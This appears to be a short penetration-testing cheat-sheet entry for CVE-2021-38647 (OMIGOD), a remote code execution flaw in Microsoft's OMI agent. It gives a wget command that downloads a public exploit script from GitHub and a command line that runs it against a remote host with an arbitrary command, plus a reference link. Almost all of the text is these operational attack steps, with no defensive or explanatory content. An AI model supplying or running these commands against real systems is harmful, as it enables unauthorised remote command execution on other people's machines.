### Download
```
wget https://raw.githubusercontent.com/horizon3ai/CVE-2021-38647/main/omigod.py
```

### Execute
```
python3 omigod.py -t <rhost> -c <command>
```

### References
https://github.com/horizon3ai/CVE-2021-38647  

